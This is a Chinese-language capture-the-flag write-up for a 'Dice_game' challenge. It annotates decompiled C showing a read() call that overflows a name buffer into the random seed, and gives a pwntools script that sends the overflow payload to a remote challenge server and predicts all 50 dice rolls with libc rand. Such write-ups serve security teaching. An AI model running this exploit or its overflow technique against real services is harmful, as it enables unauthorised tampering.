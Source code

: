 Dice_game-writeup

放进ida反编译：

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf[55]; // [rsp+0h] [rbp-50h]
  char v5; // [rsp+37h] [rbp-19h]
  ssize_t v6; // [rsp+38h] [rbp-18h]
  unsigned int seed[2]; // [rsp+40h] [rbp-10h]  #seed[0]距离buf 0x40
  unsigned int v8; // [rsp+4Ch] [rbp-4h]

  memset(buf, 0, 0x30uLL);
  *(_QWORD *)seed = time(0LL);
  printf("Welcome, let me know your name: ", a2);
  fflush(stdout);
  v6 = read(0, buf, 0x50uLL);                  #read可以读入0x50个字符，可以覆盖到seed
  if ( v6 <= 49 )															 #有参数的read函数返回读入的字符数量
    buf[v6 - 1] = 0;                           #读的字符数量>49个酒不会触发这一行
  printf("Hi, %s. Let's play a game.\n", buf);
  fflush(stdout);
  srand(seed[0]);															 #c语言中rand函数只要有seed，之后随机的数字是可预见的
  v8 = 1;
  v5 = 0;
  while ( 1 )
  {
    printf("Game %d/50\n", v8);
    v5 = sub_A20();
    fflush(stdout);
    if ( v5 != 1 )
      break;
    if ( v8 == 50 )
    {
      sub_B28(buf);
      break;
    }
    ++v8;
  }
  puts("Bye bye!");
  return 0LL;
}
```

要把rand的seed设成我们知道的量，这样我们就能知道之后50个随机的数字是什么

rand()函数在lib文件中，所以我们只要用给的lib文件里的rand函数，先设好seed，然后得到之后随机的50个数，返回给服务器即可

```python
from pwn import *
from ctypes import * 

context.log_level='debug'
libc = cdll.LoadLibrary("libc.so.6")
#p = process('./dice_game')
 
p = remote("111.198.29.45",36187)
p.recvuntil(" let me know your name: ")
p.send("A" * 0x40 + p64(1))

libc.srand(1)
for i in range(50): 
  p.recvuntil("Give me the point(1~6): ")
  p.send(str(libc.rand()%6 + 1) + "\n")
 
p.interactive()
```

python用法：

`libc = cdll.LoadLibrary("libc.so.6")`

`libc.srand(1)`

`libc.rand()`



p.s.

理论上如果本地的libc是一样的话

可以自己用c写一个rand函数得到答案（但是没有用上面的方法保险）

